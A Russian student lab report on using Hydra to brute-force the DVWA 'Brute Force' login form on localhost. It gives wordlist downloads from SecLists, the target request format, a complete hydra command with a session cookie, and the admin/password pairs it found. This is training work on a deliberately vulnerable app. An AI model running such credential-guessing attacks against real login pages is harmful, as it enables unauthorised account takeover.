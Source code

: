 ```yaml
---
## Front matter
title: "Индивидуальный проект. Этап 3"
subtitle: ""
author: "Матюхин Григорий Васильевич"

## Generic otions
lang: ru-RU
toc-title: "Содержание"

## Bibliography
bibliography: bib/cite.bib
csl: pandoc/csl/gost-r-7-0-5-2008-numeric.csl

## Pdf output format
toc: true # Table of contents
toc-depth: 2
lof: true # List of figures
lot: true # List of tables
fontsize: 12pt
linestretch: 1.5
papersize: a4
documentclass: scrreprt
## I18n polyglossia
polyglossia-lang:
  name: russian
  options:
	- spelling=modern
	- babelshorthands=true
polyglossia-otherlangs:
  name: english
## I18n babel
babel-lang: russian
babel-otherlangs: english
## Fonts
mainfont: IBM Plex Serif
romanfont: IBM Plex Serif
sansfont: IBM Plex Sans
monofont: IBM Plex Mono
mathfont: STIX Two Math
mainfontoptions: Ligatures=Common,Ligatures=TeX,Scale=0.94
romanfontoptions: Ligatures=Common,Ligatures=TeX,Scale=0.94
sansfontoptions: Ligatures=Common,Ligatures=TeX,Scale=MatchLowercase,Scale=0.94
monofontoptions: Scale=MatchLowercase,Scale=0.94,FakeStretch=0.9
mathfontoptions:
## Biblatex
biblatex: true
biblio-style: "gost-numeric"
biblatexoptions:
  - parentracker=true
  - backend=biber
  - hyperref=auto
  - language=auto
  - autolang=other*
  - citestyle=gost-numeric
## Pandoc-crossref LaTeX customization
figureTitle: "Рис."
tableTitle: "Таблица"
listingTitle: "Листинг"
lofTitle: "Список иллюстраций"
lotTitle: "Список таблиц"
lolTitle: "Листинги"
## Misc options
indent: true
header-includes:
  - \usepackage{indentfirst}
  - \usepackage{float} # keep figures where there are in the text
  - \floatplacement{figure}{H} # keep figures where there are in the text
---
```


# Цель работы

Использование Hydra

- Hydra используется для подбора или взлома имени пользователя и пароля.
- Поддерживает подбор для большого набора приложений.

# Выполнение лабораторной работы

Будем подбирать пароль для уязвимости "Brute Force" в DVWA с низким (low) уровнем безопастности.

## Получить словари имен пользователей и паролей

Возьмем данные из [SecLists](https://github.com/danielmiessler/SecLists).

Пароли:
```bash
$ wget https://raw.githubusercontent.com\
    /danielmiessler/SecLists/refs/heads/master\
    /Passwords/Common-Credentials/common-passwords-win.txt
```

Имена пользователей:
```bash
$ wget https://raw.githubusercontent.com\
    /danielmiessler/SecLists/refs/heads/master\
    /Usernames/cirt-default-usernames.txt
```

## Изучим цель взлома

При низком уровне безопастности форма для подбора отправляет один `GET` запрос на
`/vulnerabilities/brute/?username=<USERNAME>&password=<USERNAME>&Login=Login`.

При успехе на странице появляется текст "Welcome to the password protected area".

Но задачу усложняет тот факт, что нам необходимо быть залогиненым в DVWA,
чтобы иметь доступ к этому эндпоинту.
Поэтому прейдем туда и зайдем с именем `amdin` и паролем `password`.
Нам нужно значение Cookie `PHPSESSID`, которое мы можем взять из хранилища браузера.
Также нам нужно установить Cookie `security` в значение `low`,
чтобы приложение использовало эту настройку безопастности.

## Выполнение атаки

Составим команду для атаки на веб приложение и запустим ее:

```bash
$ hydra \
    -L cirt-default-usernames.txt \
    -P common-passwords-win.txt \
    -o ./brute.log \
    -R \
    -s 4280 127.0.0.1 \
    http-get-form \
    "/vulnerabilities/brute/:\
    username=^USER^&password=^PASS^&Login=Login:\
    H=Cookie\: security=low;PHPSESSID=68359d81ce7b2ad7cbd0079cb3336560:\
    S=Welcome to the password protected area"
```

Команда будет работать достаточно долго, но будет писать найденные комбинации в файл `brute.log`.
На момент написания этого отчета команда все еще не закончила выполняться,
но некоторые комбинации уже были найдены.

Например:
- `admin`, `password`
- `ADMIN`, `password`
- `Admin`, `password`

# Выводы

На данном этапе проекта я научился пользоваться `hydra` для подбора паролей к веб приложениям.
